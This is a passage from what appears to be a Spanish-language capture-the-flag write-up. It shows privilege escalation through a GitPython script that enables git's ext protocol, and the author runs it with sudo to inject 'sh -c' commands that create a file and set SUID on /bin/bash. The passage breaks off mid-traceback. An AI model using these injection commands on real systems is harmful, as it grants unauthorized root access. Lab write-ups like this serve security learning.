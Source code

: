 ~~~bash
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
~~~
Al revisar el script, es primera vez que veo el uso de la libreria "repo", por lo que con ayuda de la IA, dice que la configuración de "multi_options=["-c protocol.ext.allow=always"]" puede ser peligrosa, ya que permite la ejecución de comandos, por lo que esta puede ser la via de ataque.
Buscando en internet alguna forma de explotar esto, se encontro una POC de snik que dice como ejecutarla (https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)
Replicando la PoC para crear un archivo en /tmp
~~~bash
prod@editorial:/tmp$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c touch% /tmp/pwned"
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
~~~
Al parecer ocurren errores al intentar replicar la PoC, pero por curiosidad me dirigi a la carpeta /tmp para ver si por casualidad se creaba por accidente, y efectivamente si se creo.
~~~bash
prod@editorial:/tmp$ ls
pwned
systemd-private-d2329ca3e2084a85951a33696b0a3a86-fwupd.service-xIIkHR
systemd-private-d2329ca3e2084a85951a33696b0a3a86-ModemManager.service-a0AZdq
systemd-private-d2329ca3e2084a85951a33696b0a3a86-systemd-logind.service-8BFawX
systemd-private-d2329ca3e2084a85951a33696b0a3a86-systemd-resolved.service-GbxTSX
systemd-private-d2329ca3e2084a85951a33696b0a3a86-systemd-timesyncd.service-72P9ho
systemd-private-d2329ca3e2084a85951a33696b0a3a86-upower.service-3F43tx
vmware-root_879-4013723248
~~~
Entonces no entiendo porque saldra el error pero indirectamente la crea. Modificando la inyección de comandos se otorga permisos SUID a la /bin/bash.
~~~bash
prod@editorial:/tmp$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
~~~